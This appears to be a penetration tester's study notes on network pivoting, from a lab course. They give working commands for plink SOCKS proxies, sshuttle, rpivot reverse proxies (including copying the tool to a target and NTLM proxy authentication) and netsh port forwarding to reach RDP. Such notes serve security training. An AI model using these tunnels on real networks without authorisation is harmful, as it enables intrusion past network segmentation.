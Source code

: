 ## #SSH for windows:
### [plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
Short for PuTTY Link 
Windows command-line SSH tool. 
Can be used to create dynamic port forwards and SOCKS proxies. 
Windows did not have SSH client before 2018.
![[Pasted image 20230809112931.png]]
```cmd
plink -D 9050 user@target
```
### Proxifier 
Can start SOCKS tunnels via SSH.
![[Pasted image 20230809113247.png]]

## SSH #Pivoting with [Sshuttle](https://github.com/sshuttle/sshuttle)
Removes the need to configure proxychains 
Onlt works when pivoting over SSH and not TOR or HTTPS.

```shell
sudo apt-get install sshuttle
```

```shell
sudo sshuttle -r <user>@<pivotIP> <target IP or network> -v 
```
Creates an iptables to redirect all traffic to target IP 
Can use any tool without proxychains
## Web Server Pivoting with [Rpivot](https://github.com/klsecservices/rpivot)
Reverse SOCKS proxy tool.
![[Pasted image 20230809114023.png]]
```shell
sudo git clone https://github.com/klsecservices/rpivot.git
```

```shell
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
Transfer rpvitot to the target 
```shell
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
Run client on Pivot 
```shell
 python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
Configure proxy chains to pivot over local server 
```shell
proxychains firefox-esr 172.16.5.135:80
```
Connecting to a web server using HTTP-Proxy & NTLM Auth
```shell
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

## Port Forwarding with Windows [Netsh](https://learn.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)
#Netsh uses:
- `Finding routes`
- `Viewing the firewall configuration`
- `Adding proxies`
- `Creating port forwarding rules`
![[Pasted image 20230809122540.png]]
```cmd
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=<localip on pivot> connectport=3389 connectaddress=<targetIP>
```

```cmd
netsh.exe interface portproxy show v4tov4
```
Connect to #RDP over port 8080 to the pivot machine. 
